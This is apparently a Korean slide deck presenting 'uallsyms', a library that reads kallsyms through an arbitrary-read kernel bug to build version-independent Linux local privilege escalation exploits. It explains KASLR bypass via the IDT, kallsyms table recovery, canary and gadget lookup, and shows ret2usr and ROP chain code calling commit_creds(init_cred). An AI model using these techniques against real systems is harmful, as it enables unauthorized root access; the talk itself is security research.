








<style>
@font-face {
    font-family: 'NanumSquareRound';
    src: url(https://hangeul.pstatic.net/hangeul_static/webfont/NanumSquareRound/NanumSquareRoundR.eot);
    src: url(https://hangeul.pstatic.net/hangeul_static/webfont/NanumSquareRound/NanumSquareRoundR.eot?#iefix) format("embedded-opentype"), 
         url(https://hangeul.pstatic.net/hangeul_static/webfont/NanumSquareRound/NanumSquareRoundR.woff2) format("woff2"),
         url(https://hangeul.pstatic.net/hangeul_static/webfont/NanumSquareRound/NanumSquareRoundR.woff) format("woff"), 
         url(https://hangeul.pstatic.net/hangeul_static/webfont/NanumSquareRound/NanumSquareRoundR.ttf) format("truetype");
    unicode-range: U+AC00-D7A3;
}

section {
    font-family: Lato, 'Avenir Next', Avenir, 'Trebuchet MS', 'Segoe UI', sans-serif, 'NanumSquareRound';
}

</style>

# uallsyms

Try using kallsyms in userland

---

# Agenda

- Background
- Motivation
- Details
- Demo

---

# Background: Abstract

uallsyms library는 취약점을 이용해 kallsyms를 userland에서 parsing한 뒤, 여러 kernel 함수들의 주소를 제공한다. 

=> 이를 이용해 하나의 exploit을 이용해 다양한 Linux kernel에서 LPE를 달성할 수 있다.

**Keywords**
kallsyms, universal-exploit, LPE

--- 

# Background: LPE in the Linux kernel

**LPE?**

Local Privilege Escalation의 약자

Kernel 상에 존재하는 취약점을 이용해 normal user => root 를 달성하는 것을 의미한다.

LPE를 통해 root 권한으로 상승함으로써, normal user는 불가능한 권한 높은 행위들을 할 수 있게 된다.

---

# Background: LPE in the Linux kernel

**Credential in Linux kernel**

Linux kernel에서 권한은 task($\approx$ thread) 단위로 부여된다.

task에 해당하는 구조체는 task_struct 라는 이름으로 정의되어 있다.


```c
struct task_struct {
    struct thread_info  thread_info;
    unsigned int        __state;
    ...
    struct cred         cred;   /* credential of this task */
    ...
}
```

---

# Background: LPE in the Linux kernel

**Credential in Linux kernel**

Linux kernel에서 권한은 cred 라는 구조체에 의해서 관리 된다.

```c
struct cred {
    atomic_long_t   usage;
    kuid_t          uid;        /* real UID of the task */
    kgid_t          gid;        /* real GID of the task */
    kuid_t          suid;       /* saved UID of the task */
    kgid_t          sgid;       /* saved GID of the task */
    kuid_t          euid;       /* effective UID of the task */
    kgid_t          egid;       /* effective GID of the task */
    ...
};
```

---

# Background: LPE in the Linux kernel

**Credential in Linux kernel**

 

---

# Background: LPE in the Linux kernel

**Credential in Linux kernel**

- int commit_cred(struct cred *new)
    현재 task의 cred를 new로 변경하는 함수.

- struct cred init_cred
    init process의 cred에 해당하는 전역 변수; root 권한에 해당한다.

---

<style scoped>
pre {
  font-size: 80%;
}
</style>

# <!-- fit --> Background: Mitigations vs Exploit Tech.

**Exploit Tech: ret2usr**

취약점을 이용해 실행 흐름을 userland에 미리 준비한 함수로 옮기는 방법 

```c
void win(void)
{
    int (*commit_creds)(void *);
    void *init_cred;

    /* The following code runs in kernel context */
    commit_creds = 0xffffffff81001234;  /* address of commit_creds */
    init_cred = 0xffffffff82004320;     /* address of init_cred */

    commit_creds(init_creds);           /* current->cred = init_cred */

    system("/bin/sh");                  /* ?! */
}
```

---

# <!-- fit --> Background: Mitigations vs Exploit Tech.

**Exploit Tech: ret2usr**



---

<style scoped>
pre {
  font-size: 80%;
}
</style>

# <!-- fit --> Background: Mitigations vs Exploit Tech.

**Exploit Tech: ret2usr**

userland로 돌아간 뒤, shell 실행 ([더 자세한 설명](https://pawnyable.cafe/linux-kernel/LK01/stack_overflow.html#ret2user-ret2usr))


```c
void win(void)
{
    int (*commit_creds)(void *);
    void *init_cred;

    /* The following code runs in kernel context */
    commit_creds = 0xffffffff81001234;  /* address of commit_creds */
    init_cred = 0xffffffff82004320;     /* address of init_cred */

    commit_creds(init_creds);

    return_to_userland_and_spawn_shell(); 
}
```
---

# <!-- fit --> Background: Mitigations vs Exploit Tech.

**Mitigations: SMEP, SMAP**

Supervisor Mode {Execution, Access} Prevention의 약자이다.

간단하게 kernel context에서 [특별한 처리](https://felixcloutier.com/x86/stac) 없이는, userland에 해당하는 주소에 있는 함수를 실행하거나, data를 읽을 수 없게 하는 보호 기법이다.

이 두 보호기법을 이용해 ret2usr를 효과적으로 방어할 수 있다.

---

# <!-- fit --> Background: Mitigations vs Exploit Tech.

**Exploit Tech: ROP**

userland의 ROP와 크게 다르지 않다. 

- userland에서의 ROP
    목표: system("/bin/sh") => RCE or ACE

- kernel에서의 ROP
    목표: commit_creds(&init_cred) => LPE
    주의점: 안전하게 userland로 돌아와야 함.

---

# <!-- fit --> Background: Mitigations vs Exploit Tech.

**Exploit Tech: ROP**

 

---

# <!-- fit --> Background: Mitigations vs Exploit Tech.
**KASLR**

Kernel Address Space Layout Randomization의 약자.

- KASLR disabled
    kernel base address: 0xffffffff81000000
    commit_creds: 0xffffffff81000000 + 0x1234 (fixed offset)

- KASLR enabled
    kernel base address: 0xffffffff81000000 + $\alpha$ (random value)
    commit_creds: 0xffffffff81000000 + $\alpha$ + 0x1234 
    e.g.) address of commit_creds == 0xffffffff91201234

---

# Background: Interim Summary

kernel exploit의 목적은 권한 상승 (LPE)

이를 위해서는 kernel context에서 commit_creds(&init_cred) 를 실행한 뒤, 안전하게 userland로 돌아와야 한다.

이때 Linux kernel에 적용된 여러 보호 기법을 우회하려면,

1. 취약점을 이용해 주소를 유출시키고, 이를 이용해 필요한 함수, 변수의 주소를 구한다.
2. ROP를 이용해 commit_cred(&init_cred)를 실행한 뒤 userland로 돌아온다.

---

# Background: kallsyms

**kallsyms?**

함수 및 변수의 이름 <=> 주소 를 매칭 시켜주는 역할을 한다.

e.g.) /proc/kallsyms


---

# Background: kallsyms

**Usage**

- 이름 => 주소
    kernel 디버깅에 사용하는 kprobe 등에서 사용

    kallsyms_lookup_name("where_to_debug") => where_to_debug 의 주소를 반환한다.

---

# Background: kallsyms

**Usage**

- 주소 => 이름
    kernel panic, oops에서 stack trace를 출력할 때 사용

    stack에 있는 주소에 해당하는 symbol을 출력하여 가독성을 높일 수 있다.

    

---

# Motivation

**기존 offset 기반 exploit의 한계점**

1. kernel 버전이 아주 조금만 달라져도 함수와 변수가 위치한 offset이 변한다. 이로 인해 각 버전마다 offset을 새로 구해야 하는 번거로움이 있다.
2. offset을 구하기 위해서는 kernel image를 구하거나, /proc/kallsyms를 읽어야한다. 하지만, 최신 커널에서는 기본적으로 이 두 방법 모두 normal user 권한으로는 할 수 없다.

=> offset을 구하기도 힘들고, 구한다하더라도 조금만 kernel이 업데이트 되더라도 exploit이 작동하지 않을 수 있음.

---

# Motivation

**지금까지의 해결법**

1. DirtyCoW, DirtyPipe 등 offset에 의존하지 않는 좋은 취약점을 사용한다.
2. DirtyCred, Dirty Pagetable, Dirty Pagedirectory 등 Data-oriented attack을 사용한다.

=> 1. 은 좋은 취약점을 발견해야만 가능하고, 2. 는 Heap-based 취약점에만 사용할 수 있다.

---

# Motivation

**uallsyms를 이용한 해결법**

Arbitrary Address Read가 가능한 취약점 + RIP control이 가능한 취약점 

=> universal-exploit 구현하기

**어떻게?**

1. Arbitrary Address Read를 이용해 kallsyms 관련 구조체를 읽고, parsing해서 원하는 함수, 변수의 주소를 얻는다.
2. 1.에서 구한 주소를 이용해 ROP chain을 구성한다.

---

# Details: Summary

대략 다음과 같은 흐름으로 이어진다.

1. uname을 이용해 kernel에 대한 정보 얻기 
2. AAR을 이용해 kernel 주소 구하기
3. kernel image를 순회하며 kallsyms 구조체 찾기
4. kernel 함수, 변수 이름을 받고, 해당하는 주소를 반환한다.
5. 4.를 이용해 얻은 주소를 이용해 ROP chain을 짠다.

---

# Details: uname

**uname?**

architecture, kernel release 등 현재 시스템 정보를 얻을 수 있는 system call

동명의 프로그램을 이용할 수도 있다.

```shell
> uname -a
Linux DESKTOP-61L7P8M 5.15.146.1-microsoft-standard-WSL2 #1 SMP Thu Jan 11 04:09:03 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
```

---

# Details: uname

**Usage**

uallsyms에서는 uname을 이용해 현재 system의 architecture와 release 정보를 가져온다.

아래와 같이 주어진 정보들을 잘 처리해야한다. 

```shell
ubuntu@ip-172-31-43-219:~$ uname -r
6.5.0-1015-aws
ubuntu@ip-172-31-43-219:~$ uname -m
x86_64
```

---

# Details: defeat KASLR

**x86_64 기준**

AAR이 가능하다고 해도 아무런 정보도 없는 상태에서는 valid한 주소를 구하기 쉽지 않다.

=> KASLR이 활성화 된 상태에서도 고정되어 있는 주소를 찾아야 한다.

=> [IDT](https://0xax.gitbooks.io/linux-insides/content/KernelStructures/linux-kernelstructure-1.html)(Interrupt Descriptor Table)이 저장된 주소는 KASLR이 켜진 상태에서도 고정되어 있으므로 이를 활용한다.

---

# Details: defeat KASLR

IDT에는 gate_struct 가 쭉 나열되어 있다.

```c
struct gate_struct {
    u16     offset_low;
    u16     segment;
    struct idt_bits bits;
    u16     offset_middle;
#ifdef CONFIG_X86_64
    u32     offset_high;
    u32     reserved;
#endif
} __attribute__((packed));
```

---

# Details: defeat KASLR

gate_struct에는 interrupt handler에 대한 주소 정보 또한 포함되어 있기 때문에 AAR을 이용해 IDT에서 임의의 interrupt handler 주소를 구할 수 있다.



---

# Details: defeat KASLR

interrupt handler는 __entry_text_start 주변에 있다.

=> AAR 을 이용해 __entry_text_start 부터 쭉 메모리를 순회하며 kallsyms 관련 구조체로 의심되는 지점을 찾을 수 있다.



---

# Details: abuse kallsyms

```
/*
 * kallsyms 관련 변수들 순서 
 *
 * v6.4 ~
 * (1) kallsyms_num_syms
 * (2) kallsyms_names
 * (3) kallsyms_markers
 * (4) kallsyms_token_table
 * (5) kallsyms_token_index
 * (6) kallsyms_addresses / kallsyms_offsets
 * (7) kallsyms_relative_base
 * (8) kallsyms_seq_of_names
 * 
 * ref: https://github.com/torvalds/linux/commit/404bad70fcf7cb1a36198581e6904637f3c36846
 */
```
---

# Details: abuse kallsyms

**kallsyms_token_table**

```
gef> find \\x31\\x00\\x32\\x00\\x33\\x00\\x34\\x00\\x35\\x00\\x36\\x00\\x37\\x00\\x38\\x00\\x39\\x00 0xffffffffaac00000-0xffffffffab200000
  0xffffffffaac46962: <charset2uni+0x62>    31 00 32 00 33 00 34 00  35 00 36 00 37 00 38 00    |  1.2.3.4.5.6.7.8.  |
  0xffffffffaac47d42: <charset2uni+0x62>    31 00 32 00 33 00 34 00  35 00 36 00 37 00 38 00    |  1.2.3.4.5.6.7.8.  |
  0xffffffffaac48a42: <charset2uni+0x62>    31 00 32 00 33 00 34 00  35 00 36 00 37 00 38 00    |  1.2.3.4.5.6.7.8.  |
  0xffffffffaac49742: <charset2uni+0x62>    31 00 32 00 33 00 34 00  35 00 36 00 37 00 38 00    |  1.2.3.4.5.6.7.8.  |
  0xffffffffaac86122: <x86_keycodes+0x62>    31 00 32 00 33 00 34 00  35 00 36 00 37 00 38 00    |  1.2.3.4.5.6.7.8.  |
  0xffffffffaaf8871a: <linux_banner+0x2304fa>    31 00 32 00 33 00 34 00  35 00 36 00 37 00 38 00    |  1.2.3.4.5.6.7.8.  |
```

```
오답
gef> hexdump 0xffffffffaac49742
0xffffffffaac49742:    31 00 32 00 33 00 34 00  35 00 36 00 37 00 38 00    |  1.2.3.4.5.6.7.8.  |
0xffffffffaac49752:    39 00 3a 00 3b 00 3c 00  3d 00 3e 00 3f 00 40 00    |  9.:.;.<.=.>.?.@.  |
```

```
정답
gef> hexdump 0xffffffffaaf8871a
0xffffffffaaf8871a:    31 00 32 00 33 00 34 00  35 00 36 00 37 00 38 00    |  1.2.3.4.5.6.7.8.  |
0xffffffffaaf8872a:    39 00 65 64 00 6c 6f 63  6b 00 6c 69 6e 00 38 30    |  9.ed.lock.lin.80  |
```

---

# Details: abuse kallsyms

**kallsyms_token_table**

이전 장에서 kallsyms_token_table 내부 주소는 구했지만, 아직 시작 주소는 모르는 상태

=> kallsyms_token_table 내부 주소에서 낮은 주소 쪽으로 순회하면 \x00\x00 찾기

```
gef> hexdump 0xffffffffaaf88630
0xffffffffaaf88630:    d5 b7 22 00 a0 c3 22 00  b0 cc 22 00 bc d6 22 00    |  .."..."..."...".  |
0xffffffffaaf88640:    0a e1 22 00 66 ea 22 00  e3 f4 22 00 00 00 00 00    |  ..".f."...".....  |
0xffffffffaaf88650:    67 65 00 30 30 00 61 70  00 69 6e 67 00 64 65 76    |  ge.00.ap.ing.dev  | <= kallsyms_token_table
```

---

<style scoped>
pre {
  font-size: 80%;
}
</style>

# Details: abuse kallsyms

**kallsyms_token_index**

```c
/* linux/scripts/kallsyms.c */
output_label("kallsyms_token_table");
off = 0;
for (i = 0; i < 256; i++) {
    best_idx[i] = off;
    expand_symbol(best_table[i], best_table_len[i], buf);
    printf("\t.asciz\t\"%s\"\n", buf);
    off += strlen(buf) + 1;
}
printf("\n");

output_label("kallsyms_token_index");
for (i = 0; i < 256; i++)
    printf("\t.short\t%d\n", best_idx[i]);
printf("\n");
```

---

<style scoped>
pre {
  font-size: 80%;
}
</style>

# Details: abuse kallsyms

**kallsyms_token_index**

따라서 kallsyms_token_table에 있는 token들이 길이를 이용해 kallsyms_token_index의 내용을 추측할 수 있다.
```c
/* uallsyms/kallsyms/core.c */
off = 0;
for (int i = 0; i < sizeof(seqs_to_find) / sizeof(*seqs_to_find); i++) {
    seqs_to_find[i] = off;
    off += strlen(kallsyms_token_table + off) + 1;
}
```
---

<style scoped>
pre {
  font-size: 80%;
}
</style>

# Details: abuse kallsyms

**kallsyms_token_index**

```
# exploit 실행 결과
[?] [resolve_kallsyms_token_index] seqs_to_find: 0000 0003 0006 0009 000d 0013 0016 001b 0020 0024
[?] [resolve_kallsyms_token_index] kallsyms_token_index: 0xffffffffaaf889d0
```

```
gef> hexdump 0xffffffffaaf889d0
0xffffffffaaf889d0:    00 00 03 00 06 00 09 00  0d 00 13 00 16 00 1b 00    |  ................  |
0xffffffffaaf889e0:    20 00 24 00 27 00 2b 00  2f 00 33 00 36 00 3c 00    |   .$.'.+./.3.6.<.  |
```

---

<style scoped>
pre {
  font-size: 80%;
}
</style>

# Details: abuse kallsyms

**kallsyms_markers**

```c
off = 0; /* linux/script/kallsyms.c  */
for (i = 0; i < table_cnt; i++) {
    if ((i & 0xFF) == 0)
        markers[i >> 8] = off;
    ...
}

output_label("kallsyms_markers");
for (i = 0; i < ((table_cnt + 255) >> 8); i++)
    printf("\t.long\t%u\n", markers[i]);
printf("\n");
```

```
gef> hexdump 0xffffffffaaf87c28
0xffffffffaaf87c28:    00 00 00 00 35 0b 00 00  fa 17 00 00 64 25 00 00    |  ....5.......d%..  |
0xffffffffaaf87c38:    b1 31 00 00 47 3f 00 00  63 4b 00 00 f9 5a 00 00    |  .1..G?..cK...Z..  |
```

---

<style scoped>
pre {
  font-size: 80%;
}
</style>

# Details: abuse kallsyms

**kallsyms_markers**

```c
/* uallsyms/kallsyms/core.c  */
ret = uas_aar(uas, tmp, kallsyms_token_table - PAGE_SIZE, PAGE_SIZE);
if (ret < 0)
    return UNKNOWN_KADDR;

tmp_kallsyms_markers = memmem(tmp, PAGE_SIZE, "\0\0\0\0", 4);
if (!tmp_kallsyms_markers)
    return UNKNOWN_KADDR;

if (tmp_kallsyms_markers[1] == 0)
    tmp_kallsyms_markers = tmp_kallsyms_markers + 1;

kallsyms_markers = (kallsyms_token_table - PAGE_SIZE) + ((u8 *)tmp_kallsyms_markers - tmp);
pr_debug("[resolve_kallsyms_markers] kallsyms_markers: %#lx\n", kallsyms_markers);
```

---

# Details: abuse kallsyms

**kallsyms_num_syms and kallsyms_names**

kernel에 symbol이 보통 UINT_MAX개 보다 많이 있지 않으므로, 이미 구한 kallsyms_markers 주소로 부터 아래로 내려가면서 \x00\x00\x00\x00을 찾으면 kallsyms_num_syms와 kallsyms_names를 한번에 찾을 수 있다.

```
0xffffffffaad582d0:    00 00 00 00 00 00 00 00  5f 88 02 00 00 00 00 00    |  ........_.......  | <- kallsyms_num_syms
0xffffffffaad582e0:    0b 41 bc 78 3a ec f5 63  bd 5f 64 08 07 41 fd f5    |  .A.x:..c._d..A..  | <- kallsyms_names
0xffffffffaad582f0:    ef bd 9f 14 0a 41 63 bd  5f ee 99 67 f6 a3 f7 0d    |  .....Ac._..g....  |
...
0xffffffffaaf87c08:    ff 62 72 cb 65 c9 6c 79  ec 67 fe e0 ba 04 42 5f    |  .br.e.ly.g....B_  |
0xffffffffaaf87c18:    f2 64 09 42 ff 62 72 cb  6c 69 6d ea 00 00 00 00    |  .d.B.br.lim.....  |
0xffffffffaaf87c28:    00 00 00 00 35 0b 00 00  fa 17 00 00 64 25 00 00    |  ....5.......d%..  | <- kallsyms_markers
```

---

# Details: abuse kallsyms

**kallsyms_offsets**

kallsyms_offsets는 kallsyms_token_index 바로 뒤에 있다.
그런데 kallsyms_token_index는 원소가 256개 있는 short 배열이므로

kallsyms_offsets = kallsyms_token_index + 2 * 256 이다.
```c
output_label("kallsyms_token_index");
for (i = 0; i < 256; i++)
    printf("\t.short\t%d\n", best_idx[i]);
printf("\n");
```

---

<style scoped>
pre {
  font-size: 70%;
}
</style>

# Details: abuse kallsyms

**kallsyms_relative_base**

kallsyms_relative_base는 kallsyms_offsets 바로 뒤에 있다.
kallsyms_offsets는 원소가 table_cnt(= kallsyms_num_syms)개 있는 long(4 byte) 배열이므로

kallsyms_relative_base = kallsyms_offsets + 4 * kallsyms_num_syms 이다.
```c
output_label("kallsyms_offsets");
for (i = 0; i < table_cnt; i++) {
    ...
    printf("\t.long\t%#x	/* %s */\n", (int)offset, table[i]->sym);
}
printf("\n");
```

---

# Details: use kallsyms in userland

이제 kallsyms 관련 변수의 주소는 모두 찾은 상태이다.

그럼 찾은 정보들로 kernel symbol들의 정보를 복구해주면, kallsyms에 존재하는 모든 함수, 변수에 대한 주소를 알 수 있다.

---

<style scoped>
pre {
  font-size: 80%;
}
</style>

# Details: use kallsyms in userland

**symbol의 절대 주소 구하기**

먼저 해당 symbol이 kallsyms_relative_base로부터 얼마나 떨어져 있는지를 저장해둔, kallsyms_offsets와 kallsyms_relative_base를 이용해 symbol들의 절대 주소를 구해준다.

```c
ret = uas_aar(uas, offsets, uas->kallsyms_cache.kallsyms_offsets, kallsyms_offsets_len);
if (ret < 0)
    return -1;

for (int i = 0; i < uas->kallsyms_cache.kallsyms_num_syms; i++) {
    if (offsets[i] < 0)
        kallsyms_address_list[i] = uas->kallsyms_cache.kallsyms_relative_base - offsets[i] - 1;
    else
        kallsyms_address_list[i] = uas->kallsyms_cache.kallsyms_relative_base + offsets[i];
}
```

---

# Details: use kallsyms in userland

이제 symbol들의 절대 주소는 모두 아는 상태이다.

symbol 이름을 복구해서 이미 구한 절대 주소랑 연결해주면 끝이다.

---

# Details: use kallsyms in userland

**symbol 이름 복구**

kallsyms에서 symbol 이름은 kallsyms_names 와 kallsyms_token_table을 이용해 압축된다.

아래와 같은 예시를 통해 symbol name이 어떻게 압축되어 있는지 알아보자.

```
# kallsyms_names
\x02\x00\x01\x02\x00\x03
# kallsyms_token_table
kernel\x00read\x00write\x00
```

---

# Details: use kallsyms in userland

**symbol 이름 복구**

kallsyms_names의 첫번째 byte는 앞으로 kallsyms_names에서 사용할 byte의 개수를 의미한다.

=> 첫번째 symbol을 저장하기 위해서 kallsyms_names에서 \x02 다음에 있는 \x00\x01을 사용했다는 것을 알 수 있다.

```
# kallsyms_names
\x02\x00\x01\x02\x00\x03
# kallsyms_token_table
kernel\x00read\x00write\x00
```

---

# Details: use kallsyms in userland

**symbol 이름 복구**

\x00과 \x01은 무엇을 의미하는 것일까?

=> kallsyms_token_table에 있는 token의 index이다.

=> 첫번째 symbol의 이름은 
kernel(index 0) + read(index 1) == kernelread

```
# kallsyms_names
\x02\x00\x01\x02\x00\x03
# kallsyms_token_table
kernel\x00read\x00write\x00
```

---

# Details: use kallsyms in userland

**symbol 이름 복구**

이런 과정을 반복하면 모든 symbol의 이름을 복구할 수 있다.

=> 두번째 symbol이 이름은 kernel + write == kernelwrite

```
# kallsyms_names
\x02\x00\x01\x02\x00\x03
# kallsyms_token_table
kernel\x00read\x00write\x00
```

---

# Details: use kallsyms in userland

**symbol 이름 <=> symbol 주소**

이제 구한 이름과 주소를 매칭시키면 된다.

이건 아주 간단하게 해결할 수 있다.

symbol에 대한 정보가 kallsyms_names와 kallsyms_offsets에 같은 순서로 저장되기 때문에

kallyms_names[0] 에서 구한 symbol name <=> kallsyms_offsets[0] 에서 구한 symbol address를 매칭시키면 된다.

---

# Details: write the ROP chain

**Retrospect: LPE in the Linux kernel**


---

# Details: write the ROP chain

**init_cred and commit_creds**

uallsyms library는 `kaddr_t uas_lookup_name(uas_t *uas, char *name)` 함수를 제공하여 공격자가 쉽게 kernel symbol의 주소를 얻을 수 있도록 한다.

```c
commit_creds = uas_lookup_name(uas, "commit_creds");
printf("[+] commit_creds: %#lx\n", commit_creds);

init_cred = uas_lookup_name(uas, "init_cred");
printf("[+] init_cred: %#lx\n", init_cred);
```

---

# Details: write the ROP chain

**gadget 주소는?**

이 프로젝트의 가장 큰 한계점 중 하나이다. 
kallsyms에는 kernel 함수 및 변수의 주소는 빠짐없이 들어 있지만, 
gadget 주소에 대한 정보는 전혀 알 수 없다.

=> 대신 kallsyms 정보를 획득하기 위해 사용한 AAR을 이용해 kernel image를 scan 하면 gadget을 찾도록 함.

---

# Details: write the ROP chain

**gadget 주소는?**

uallsyms library는 이전 장에서 이야기 한 방법을 사용해 아래와 같은 함수를 제공한다.

이 함수를 이용해 gadget 주소 또한 구할 수 있다.
```c
kaddr_t uas_resolve_pop_rdi(uas_t *uas);
kaddr_t uas_resolve_kpti_trampoline(uas_t *uas);
u64 uas_resolve_canary(uas_t *uas);
```

---

# Details: write the ROP chain

**canary는?**

Linux kernel에서 canary는 `QWORD PTR gs:0x28` 에서 가져온다.

따라서 canary는 `pcpu_base_addr`에 있는 gs segment의 base 주소를 구하고, 구한 gs base 주소 + 0x28에 있는 값을 가져오면 얻을 수 있다.

uallsyms library에서는 `u64 uas_resolve_canary(uas_t *uas)`를 이용해 간편하게 canary를 구할 수 있다.

---

# Details: write the ROP chain

**Putting it all together**


---

# Details: write the ROP chain

**Putting it all together**

```c
*(uint64_t *)(g_buf + 0x1) = canary; /* canary */
*(uint64_t *)(g_buf + 0x9) = pop_rdi;
*(uint64_t *)(g_buf + 0x11) = init_cred;
*(uint64_t *)(g_buf + 0x19) = commit_creds;
*(uint64_t *)(g_buf + 0x21) = kpti_trampoline;
*(uint64_t *)(g_buf + 0x29) = 0;
*(uint64_t *)(g_buf + 0x31) = 0; 
*(uint64_t *)(g_buf + 0x39) = (uint64_t)spawn_shell; /* rip */ 
*(uint64_t *)(g_buf + 0x41) = 0x33; /* cs */
*(uint64_t *)(g_buf + 0x49) = 0x206; /* rflags */
*(uint64_t *)(g_buf + 0x51) = (uint64_t)__builtin_frame_address(0); /* rsp */
*(uint64_t *)(g_buf + 0x59) = 0x2b; /* ss */
```

---

# Demo

**linux 6.6.21**



---

<style scoped>
section {
    display: flex;
    text-align: center;
    font-size: 40px;
    justify-content: center;
    flex-flow: column nowrap;
}
</style>

# Thanks